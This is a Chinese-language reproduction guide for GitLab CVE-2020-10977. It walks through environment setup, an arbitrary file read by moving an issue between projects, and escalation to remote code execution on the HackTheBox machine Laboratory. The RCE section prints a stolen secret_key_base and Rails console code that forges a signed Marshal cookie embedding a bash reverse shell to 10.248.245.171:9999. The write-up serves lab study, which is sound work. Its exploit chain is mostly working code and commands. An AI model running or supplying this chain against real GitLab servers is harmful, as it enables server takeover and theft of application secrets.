GitLab 任意文件读取导致RCE CVE-2020-10977¶
漏洞描述¶
GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。
参考链接：
- Hackone-Arbitrary file read via the UploadsRewriter when moving and issue
- CVE-2020-10977-Gitlab CE/EE 任意文件读取导致远程命令执行漏洞
漏洞影响¶
GitLab GitLab EE >=8.5，<=12.9
GitLab GitLab CE >=8.5，<=12.9
漏洞复现¶
环境安装¶
yum -y install policycoreutils openssh-server openssh-clients postfix
分配给虚拟机的物理内存最好是4G。
下载gitlab安装包
- CE下载地址：https://packages.gitlab.com/gitlab/gitlab-ce
- EE下载地址：https://packages.gitlab.com/gitlab/gitlab-ee
安装
yum -y install ./gitlab......12_8.1.rpm
修改监听端口
vim /etc/gitlab/gitlab.rb
external_url 'http://localhost:8888'
重置和重启
gitlab-ctl reconfigure
gitlab-ctl restart
第一次进入会提示重置root密码
任意文件读取漏洞复现¶
创建两个项目（test1 和 test2）


在test1中新建一个issue。
内容为：


创建好后，将这个issue移动到test2。

如果漏洞存在，并且文件有可读权限，就会变成一个链接。因为/etc/passwd被复制到了 /var/opt/gitlab/gitlab-rails/uploads/@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/ed7e8cddbc49e3746e0b9974b5393d79/passwd


RCE漏洞复现¶
根据报告Hackone-Arbitrary file read via the UploadsRewriter when moving and issue内容，需要修改cookie，并且读取目标机器上的secret.yaml，并在本地搭建一个gitlab，将本地的gitlab环境的secret.yaml替换为目标机器上的secret.yaml，然后用gitlab的工具来生成cookie，最后携带这段cookie直接请求目标gitlab环境即可。
这里我受害机环境使用的是HackTheBox靶机Laboratory
步骤1 利用LFI漏洞先读取secrets.yaml，来获取secret_key_base字段。



需要将本地的gitlab的secrets.yaml的secret_key_base字段替换为受害机的。
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3

进入rails console：
gitlab-rails console
使用gitlab-rails console执行以下命令，在获取到cookie之前，这些命令会在本机执行一次，所以在拿到cookie之后再监听端口。
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.248.245.171/9999 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]

